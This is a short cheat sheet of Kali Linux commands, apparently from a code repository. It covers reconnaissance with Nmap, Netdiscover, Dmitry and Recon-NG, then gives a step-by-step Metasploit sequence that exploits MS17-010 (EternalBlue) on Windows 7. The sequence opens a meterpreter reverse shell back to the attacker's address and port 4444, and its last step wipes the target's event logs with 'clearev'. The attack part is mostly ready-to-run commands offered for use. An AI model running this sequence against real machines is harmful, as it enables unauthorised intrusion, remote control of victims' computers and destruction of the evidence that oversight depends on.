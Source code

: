 ## Kali Linux
### Information Gathering and Reconnaissance
#### Use Recon-NG Framework:
```
> recon-ng
> show modules
> use module-name
```
#### Use Dmitry
```
> dmitry -s site.com
```
#### Use Netdiscover to find IPs and open ports on LAN
```
> netdiscover
```
#### Use Nmap
```
> nmap -v -A site.com
```
Find open ports:
```
> nmap -r -v 192.168.1.5
```
Find what services are running on open ports:
```
> nmap -sS -Pn -A 192.168.1.5
```
#### Use Metasploit for Pintesting Windows 7
Get open ports
```
> nmap -sS -sV put-target-ip-here-or-a-range -A -O -v
> msfconsole
  // use MS17010 for Windows 7 
> search MS17-010
> use exploit/windows/smb/ms_17_010_eternalblue
  // or
> use exploit/windows/smb/ms17_010_psexec
> show payloads
> set payload windows/x64/meterpreter/reverse_tcp
> show options
> set LHOST put-your-ip-here
> set LPORT 4444
> set RHOST put-target-ip-here
> set RPORT 445
> exploit
```
if you get meterpriter bash, it means you are in the target file sistem. Use mterpreter commands to navigate around.

To clear logs on the target system (via meterpreter):
```
> clearev (clear log)
```
